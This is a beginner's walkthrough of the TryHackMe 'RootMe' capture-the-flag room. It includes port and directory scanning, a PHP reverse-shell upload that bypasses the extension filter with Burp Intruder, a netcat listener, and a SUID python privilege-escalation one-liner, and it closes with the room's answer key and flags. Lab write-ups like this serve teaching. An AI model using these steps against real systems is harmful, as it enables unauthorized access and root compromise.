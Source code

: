 # ♦ Day 10
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [RootMe](https://tryhackme.com/r/room/rrootme) : 
   ⇨ A ctf for beginners, can you root me? 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. Start yor machine and set up your Vpn and stuff as shown in previous Repo's.

![Screenshot 2024-06-19 181441](https://github.com/Izumi0XD/CYBER_SECURITY_NOTES/assets/141332753/9f832b05-537c-4f1a-b5ee-0be45087e526)

### • 2. As the Task 2 is asking for how many ports are iopen so we are exactly gonna scan the ports and this process of gathering informations bya scanning and stuff is is also known as ***RECONNAISSANCE*** as like a professional name for doint scanning and stuff. Anyway we will do scanning using nmap and cammaod for taht is :
    nmap -sV >IP add<
</br>
⇨ as we can see that the there are 2 services are alive </br>
     Service --- Version </br>
  1.  ssh    - OpenSSH               (Secure Shell) </br>
  2.  http   - Apache httpd 2.4.29   (Hypertext Transfer Protocol).</br>


### • 3. The next task is to find hidden directory as we already know that for finding hidden directories we use ***gobuster***.
    gobuster dir -u >IP add< -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

⇨ As we can see that there are 5 hidden directories in total whaich are as
1. /css -  just a basic css page.
2. /js  -  is a java script page.
3. /uplaods  -  a page where all the uplaoded file are being stored.
4. /panel  -  an interface based page where we can uplaod files.
5. /server  -  a permission denied page.

### • 4. Now for getting into the server and collecting required data (i.e user.txt in task 3) we will upload a reverse shell (which will bring back a connection back from server back to our device)
the suggested reverse shel for this experiment is a shell by ***Pentestmonkey*** by using command -

    wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
⇨ After downlaoding the file we have to extract it and the open it by nano or mousepad or vscode whatever we just have to change it's ip and port no.</br>
⇨ For ip[ we have to provide tun0's ip and port can be any port which is not in use or we won't use.
### • 5. For uploading this file we will use a new tool known as ***Burpsuite*** thi sis a very good for pentresting and stuff on webpages. So now we have to set our burpsuite by doing folloing steps.
  • 1. Firstly we have to install an extension on any browser we are gonna use it's name is "[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)"
  
  • 2. Now we have to set our proxy to work for tht we have to go to our ***Burpsuite > Proxy > Setting > Then we have to set our port no > Then we will set our FoxyProxy's port no and number***
  
  • 3. Ok now whhen its it done we can open ***Intruder*** and now we can interfere with the files which are goihng to the server

  ### • 6. Now we have to bruteforce our php file by different php extensions given [Here](https://book.hacktricks.xyz/pentesting-web/file-upload)

   By doing this the intrtuder will try all the given php extensions and we can sucessfully upload our php file.

### • 7. Now for getting a connection back we simply have to open netcat listner in a terminal and then run tht uploaded php file
   for using netcat we have to give the given command 
        
    nc -lvnp >Port no. tht was given in shell<

### • 8. Now to find our desired file we have to rrun a find command like

    find / -type f -name user.txt 2> /dev/null
 or 
 
    find / -type f -name user.txt


    
   now we just have to cat the result 

     cat /var/www/user.txt

### • 9. Privilege Esclation

   To gain root acess we have to run a privilege esclation command to find th ecode we gtg at GFTOBins [Website](https://gtfobins.github.io/), and run the given command
         
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Now we are root user to confirm tht ewe have to use ***whoami*** command 
 now to find the root.txt file we simply have to use

    find / -type f -name root.txt 
    cat /root/root.txt


# ♦ ANSWERS :

## ◙ TASK 2 :

⍰. Scan the machine, how many ports are open?

   ⇨ 2

⍰. What version of Apache is running?

   ⇨ 2.4.29

⍰. What service is running on port 22?

   ⇨ ssh

⍰. What is the hidden directory?

   ⇨/panel/

## ◙ TASK 3 :

⍰. user.txt

   ⇨ THM{y0u_g0t_a_sh3ll}

## ◙ TASK 4 :

⍰. Search for files with SUID permission, which file is weird?

   ⇨ /usr/bin/python

⍰. root.txt

   ⇨ THM{pr1v1l3g3_3sc4l4t10n}
